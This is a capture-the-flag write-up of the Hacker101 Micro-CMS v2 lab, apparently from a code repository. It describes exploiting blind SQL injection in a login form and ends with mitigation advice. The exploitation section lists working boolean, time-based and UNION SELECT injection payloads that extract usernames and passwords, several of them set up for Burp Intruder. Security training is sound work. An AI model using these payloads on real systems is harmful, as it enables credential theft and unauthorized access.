 # Micro-CMS-v2-Blind-SQLi

I. Introduction

        Blind SQL injection (SQLi) is a type of SQL injection attack where an attacker can infer the content of the
    database without directly extracting the data. This is achieved by sending crafted SQL queries to the
    application and analyzing the response of the server, without actually seeing the database content. Blind SQLi
    is commonly used in CTF (Capture the Flag) challenges as a way to test the ability of participants to exploit
    vulnerabilities in web applications. By exploiting Blind SQLi, participants can demonstrate their skills in 
    finding and exploiting vulnerabilities, as well as their ability to analyze application behavior and logic to
    infer the content of the database. Blind SQLi challenges can vary in complexity and difficulty, ranging from
    basic Boolean-based techniques to more advanced techniques involving time delays, error messages, and other
    indicators. This lab is made by hacker101 and will be going over one flag.

II. Information Gathering

        After spinning up burp and enabling the proxy I loaded into the website and noticed a CMS changelog link.
    Upon viewing the page I can see they added a login page as well as a change that allows only admins to edit
    and add pages. Continuing mapping the application I click the Markdown Test and notice its similar to CMSv1
    but whenever you try to edit that page is directs you to a login page /admin. The last link is the Create a
    new page which also redirects you to the /admin page. With all of these POST/GET requests in Burp we can start
    to see these interactions in more detail. This concludes the mapping of the application for now.
           

III. Exploitation

        Now that the application has been mapped with all of its functionality I start to fuzz my attack surface.
    I started with the login page as that would open up the most functionality to us. I started by inputting some 
    common username/passwords and notice I get an Unknown User error. None of the easy gimmies worked like
    admin/password...etc. Onto special characters for SQL considering it is a login page and would you look at that. 
    A single apostrophe has done the job. We get an error with the exact SQL query being placed into the backend as
    well as which DB is in use, which is MariaDB. Now I know that I can escape it and write my own magic! I start    
    small and build up... 
    
    **Testing Boolean Payloads:**
    ~~~
    payload1: ' OR (1=1)# // Well that's nice, no errors and it ALSO displays a new error "Invalid Password"
    
    Payload2: ' OR (SELECT CASE WHEN (1=1) THEN 1=1 ELSE 1=2 END)# // Changing the conditionals works
    ~~~
    **Enumeration Test:**
    ~~~
    Payload3: ' OR (SELECT CASE WHEN SUBSTRING(@@version,1,1)='1' THEN 1=1 ELSE 1=2 END)# //Enumerates DB version
    ~~~
    **Enumerating Length of the 1st username:**
    ~~~
    Payload4: ' OR LENGTH(username)=5# // Enums length of username
   
    Payload5: ' OR LENGTH(password)=5# // Enums length of password
    ~~~
    **Enumerating the user/pass using Burp Intruder:**
    ~~~
    Payload6:' OR (SELECT CASE WHEN SUBSTRING(username,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    Payload7:' OR (SELECT CASE WHEN SUBSTRING(password,§1§,1)='§a§' THEN 1=1 ELSE 1=2 END)#//
    ~~~  
    
    Other Avenues for exploiting VIA TIME BASED AND UNION SELECT:
    NOTE: Union Select will be used for another flag
    ~~~
    Payload1: ' OR (UNION SELECT NULL#) // This also doesn't give us an error but adding a second NULL value errors
    Payload2: ' UNION SELECT 'abc' AS password FROM admins#
    
    Payload1: ' OR (SELECT CASE WHEN SUBSTRING(password,1,1)='k' THEN sleep(10) ELSE 1=2 END)# //induces sleep if 
    condition is true. This would be better if the default login creds message was standard
    ~~~
    
IV. Flag Retrieval

    After you have retrieved the username/password you are able to login and are presented with a flag. 

V. Conclusion/Mitigation

    In summary I was able to use Blind SQLi to enumerate database contents and gain credentials to an admins account.
    For mitigation I would sanitize user input before passing it to the database and use parameterized queries. 
    I would also give a single generic message when trying to login like "unknown login credentials" instead of
    "Unknown Username" and "Invalid password". Even if SQLi wasn't present the ungeneric error messages would lead
    to username enumeration. Additionally the JWT being used has admin:true as the body and that could be a potential
    vulnerability. This has not been checked yet but would be in a real test
